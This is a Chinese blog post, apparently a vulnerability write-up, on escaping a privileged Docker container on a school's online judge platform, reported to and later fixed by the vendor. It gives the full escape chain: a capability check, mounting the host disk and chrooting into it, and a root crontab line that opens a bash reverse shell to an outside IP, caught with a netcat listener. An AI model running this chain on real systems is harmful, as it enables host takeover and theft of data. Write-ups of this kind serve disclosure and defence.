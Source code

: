 ```yaml
---
title: 一例 docker 配置不当产生的逃逸漏洞
date: 2023-02-18 11:19:59
categories: 逆向
tags: [逆向, docker]
url: /2023/02/18/一例docker配置不当产生的逃逸漏洞/
---
```


我们学校某些实验课使用的是头歌实践教学平台（educoder，一个在线评测网站），老师说找到漏洞可以提，我就简单挖了挖。其实去年 5 月份就找到这个漏洞了，但是碍于修复需要时间，没有写成文章。前段时间登陆上去看了下，发现已经修复了，就浅浅记录一下吧。

<!-- more -->

说句题外话，我是发邮件告诉他们这个漏洞的，结果就收到个“已转发给技术”，修复完了也渺无音信。要不是这体量不太够我就给他发 CNVD 上面去了😡。

回到正题，说起来这个漏洞也挺简单，分发给用户的评测机其实是跑在 docker 里面的，而这个 docker 是以特权模式启动的。

验证 docker 是否是特权模式启动，只需要使用命令：

```bash
> cat /proc/self/status | grep CapEff
0000003fffffffff
```

结果是`0000003fffffffff`就是了。

知道是特权模式启动的 docker 之后，就可以开始逃逸了。

先挂载宿主机硬盘：
```bash
> mkdir test;
> mount /dev/vda1 test/;
> chroot /test/;
```

现在主机的磁盘就挂载在`/test`下面了，可以查看、修改主机的所有文件，我这里就修改 crontab 简单获取个反弹 shell。

```bash
> vi ./etc/crontab
"*/1 *  *  *  * root bash -i >& /dev/tcp/172.20.253.241/2333 0>&1"
```

在攻击机上监听一下：
```bash
> netcat -lvvp 2333
```

过一会儿就能收到反弹 shell 了，粗略看了看，也就是一个阿里云的主机，可以看到各个评测的答案和代码，还有一些敏感信息按下不表。

![](一例docker配置不当产生的逃逸漏洞/educode_1.png)